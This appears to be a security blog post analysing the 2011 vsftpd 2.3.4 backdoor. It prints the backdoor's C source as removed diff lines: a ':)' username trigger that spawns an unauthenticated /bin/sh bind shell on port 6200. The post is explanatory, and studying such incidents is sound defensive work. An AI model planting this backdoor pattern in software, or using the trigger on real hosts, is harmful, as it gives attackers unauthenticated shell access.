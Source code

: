 ```yaml
---
layout: post
title:  "VSFTPD 2.3.4"
categories: [Vulnerabilities]
tags: [backdoor, exploit, python]
---
```


### Introduction

Between June 30th - July 1st 2011 a backdoor was introduced into the vsftpd-2.3.4.tar.gz archive this backdoor allowed an attacker to get a bind shell to the system and thus compromising the system. Although the backdoor was removed quickly (July 3rd 2011) a lot of people downloaded this vulnerable version of VSFTPD, causing quite a lot of panic for sysadmins.

### So, how does it work?

In general, it's actually a pretty simple exploit, and whilst there is a Metasploit module you really don't need to use it. The backdoor payload is initiated in response to a user sending `:)` to the server upon being prompted for a username, by sending that smiley face to the server it executes a function which opens a bind shell listener on port 6200 of the affected device.

### Code Review

```
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
```

As you can see in the above code, we're checking if some input is equal to a certain value, to be specific, we're checking if the user input is equal to `0x3a` and `0x29` if this is true then we're executing `vsf_sysutil_extra();` a quick Google on `0x3a` tells you it's a `:` and a further Google on `0x29` shows a `)` so as you can see there is the smiley face. So, now we know that we have this special input, let's look at the `vsf_sysutil_extra();` function as right now we don't have anything that resembles a vulnerability.

```
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1);
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  {
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0);
-  }
-}
-
-
```

As you can see above, we're creating a bind socket and setting up a listener process on that socket. We're opening this socket on port 6200 and that is where the vulnerability lies, because we can now connect to this socket without *any* authentication process taking place.

### References

[vsftpd 2.3.4 Vulnerable Code](https://pastebin.com/AetT9sS5)


